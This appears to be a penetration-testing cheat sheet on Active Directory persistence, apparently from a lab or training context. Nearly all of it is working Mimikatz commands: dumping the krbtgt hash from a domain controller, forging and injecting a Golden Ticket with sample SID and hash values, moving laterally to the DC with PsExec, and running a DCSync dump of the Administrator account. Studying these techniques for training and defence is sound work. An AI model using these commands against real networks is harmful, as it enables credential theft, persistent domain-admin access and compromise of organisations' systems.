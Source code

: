 ## Active Directory Persistence

### Golden Tickets

You must either have access to an account that is a member of the Domain Admins group or have compromised a DC to get the hash of krbtgt.

##### Get the krbtgt Hash Directly from the DC

1. Open Mimikatz in an elevated prompt

2. Issue the following to dump the password hashes and record the hash of `krbtgt`

   ```powershell
   privilege::debug
   lsadump::lsa /patch
   ```

#### Create the Golden Ticket

Creating the Golden ticket doesn't require admin privileges or even a machine on the domain.  

1. From any compromised Windows machine, run Mimikatz from a prompt:

2. Clear the Kerberos tickets, create the Golden Ticket using a made up user and load it into memory

   ```powershell
   kerberos::purge
   kerberos::golden /user:docrobot /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /krbtgt:fc274a94b36874d2560a7bd332604fab /ptt
   ```

#### Use the Ticket

This is a variation of the Overpass the Hash technique

1. Launch a new command prompt from Mimikatz:

   ```powershell
   misc::cmd
   ```

2. From this command prompt, attempt a lateral movement using PSExec
   Note: You must connect using the hostname.  The IP address will force the use of NTLM authentication, which would be blocked.

   ```powershell
   psexec.exe \\dc01 cmd.exe
   ```

3. You can verify the user and group membership in the new shell, which should show the fake user and the high-value groups

   ```powershell
   whoami
   whoami /groups
   ```

### Domain Controller Synchronization

This technique doesn't require any tools or logging into the DC, but it does require a user in the Domain Admin group logged into a compromised domain connected machine.

1. Run mimikatz

2. From mimikatz, issue a DC Sync command, specifying a user to display hashes for

   ```powershell
   lsadump::dcsync /user:Administrator
   ```

   